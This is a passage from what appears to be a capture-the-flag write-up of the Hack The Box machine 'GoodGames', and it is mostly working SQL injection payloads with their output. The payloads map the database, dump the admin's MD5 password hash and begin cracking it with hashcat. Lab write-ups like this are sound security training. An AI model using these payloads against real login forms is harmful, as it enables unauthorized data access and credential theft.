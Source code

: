 ```html
<h2 class="h4">Welcome admin</h2>
```

I incremented the column to order by until it failed at `Order by 5`. With this, I knew that the query needed to return 4 columns.

Next I needed to find wich column was used as the username that was displayed on the page. 

```http
email=' Union Select 1, 2, 3, 4 -- -- &password=sfdkljds
```
```html
<h2 class="h4">Welcome 4</h2>
```

The fourth column contained the username and was displayed on the page. I could use this to extract any data I wanted from the database.

Get the database name. 

```
email=' Union Select 1, 2, 3, database() -- -- &password=sfdkljds

Welcome main
```

Get the tables in the main database.

```
email=' Union Select 1, 2, 3, GROUP_CONCAT(TABLE_NAME) From information_schema.TABLES Where TABLE_SCHEMA = 'main' -- -- &password=sfdkljds

Welcome blog,blog_comments,user
```

Get the columns in the user table. 
```
email=' Union Select 1, 2, 3, GROUP_CONCAT(COLUMN_NAME) From information_schema.COLUMNS Where TABLE_SCHEMA = 'main' And TABLE_NAME = 'user' -- -- &password=sfdkljds

Welcome id,email,password,name
```

Read the user table.
```
email=' Union Select 1, 2, 3, CONCAT(id, '-', name, '-', email, '-', password) From user Order By 1 Limit 0, 1 -- -- &password=sfdkljds

Welcome 1-admin-admin@goodgames.htb-2b22337f218b2d82dfc3b6f77e7cb8ec
```

I had the MD5 hash of the admin password. I launched hashcat to crack it. 

```bash
$ hashcat -a0 -m0 hash.txt /usr/share/wordlists/rockyou.txt         
hashcat (v6.2.5) starting       
                                                                                                                     
OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 7 PRO 5850U with Radeon Graphics, skipped
                                                          
OpenCL API (OpenCL 2.1 LINUX) - Platform #2 [Intel(R) Corporation]
==================================================================
* Device #2: AMD Ryzen 7 PRO 5850U with Radeon Graphics, 1932/3929 MB (491 MB allocatable), 4MCU
                                                          
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
                                                          
Hashes: 1 digests; 1 unique digests, 1 unique salts 
```